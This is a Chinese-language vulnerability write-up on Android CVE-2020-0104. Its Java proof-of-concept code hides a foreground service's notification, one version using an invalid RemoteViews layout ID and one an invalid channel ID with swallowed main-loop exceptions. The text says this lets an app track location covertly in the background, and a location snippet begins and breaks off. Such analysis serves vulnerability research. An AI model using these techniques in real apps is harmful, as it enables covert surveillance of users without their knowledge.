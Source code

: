 ## 三、漏洞验证
- 第一个漏洞，可以在前台服务中使用如下的代码触发
```java
NotificationManager notificationManager = (NotificationManager) getSystemService(Context.NOTIFICATION_SERVICE);
NotificationChannel notificationChannel = new NotificationChannel("c01", "CVE-2020-0104", NotificationManager.IMPORTANCE_DEFAULT);
notificationChannel.setDescription("Testing CVE-2020-0104");
notificationChannel.enableLights(true);
notificationChannel.setLightColor(Color.RED);
notificationChannel.enableVibration(true);
notificationChannel.setVibrationPattern(new long[]{100, 200, 300, 400, 500, 400, 300, 200, 100});
notificationManager.createNotificationChannel(notificationChannel);
//  Create a RemoteViews object with a invalid layout ID
RemoteViews remoteViews = new RemoteViews(getPackageName(), -1 /* A Invalid Layout ID */);
Notification notification = new NotificationCompat.Builder(this, "c01")
        .setContentTitle("Testing CVE-2020-0104")
        .setContentText("If you see this means you device is not vulnerable")
        .setCustomBigContentView(remoteViews)
        .setWhen(System.currentTimeMillis())
        .setSmallIcon(R.drawable.ic_launcher_foreground)
        .setLargeIcon(BitmapFactory.decodeResource(getResources(), R.drawable.ic_launcher_foreground))
        .build();
startForeground(1, notification);
```
- 我们在创建RemoteViews对象的时候，指定了Layout ID为-1，显然这是一个不合法的值，这样就可以触发onNotificationError回调。
- 第二个漏洞，可以在前台服务中使用如下的代码触发
```java
//   Handle the exception in main loop
new Handler(Looper.getMainLooper()).post(new Runnable() {
    @Override
    public void run() {
        while (true) {
            try {
                Looper.loop();
            } catch (Throwable e) {
                e.printStackTrace();
            }
        }
    }
});
//   Create a Notification object with a invalid channel ID
Notification notification = new NotificationCompat.Builder(this, "InvalidInvalidInvalid" /* A Invalid Channel ID */)
        .setContentTitle("Testing CVE-2020-0104")
        .setContentText("If you see this means you device is not vulnerable")
        .setWhen(System.currentTimeMillis())
        .setSmallIcon(R.drawable.ic_launcher_foreground)
        .setLargeIcon(BitmapFactory.decodeResource(getResources(), R.drawable.ic_launcher_foreground))
        .build();
startForeground(2, notification);
```
- 这次我们直接没有创建NotificationChannel对象，直接使用了一个无效的Channel ID来构建Notification，这样就可以触发postNotification方法的异常，然后我们再捕获主线程的异常，这样应用就不会崩溃了。
## 四、漏洞影响
- 成功利用该漏洞，恶意应用可在后台静默拉起高优先级的前台服务并持续运行。
- 比较大的影响是应用利用定位权限对用户进行追踪，由于使用的是前台服务，所以即使是选择了“仅允许前台访问位置信息”，也可以在“后台”进行位置追踪，并且用户无感知。
```java
public void refreshLocation() {
    LocationManager locationManager = (LocationManager) getSystemService(Context.LOCATION_SERVICE);
```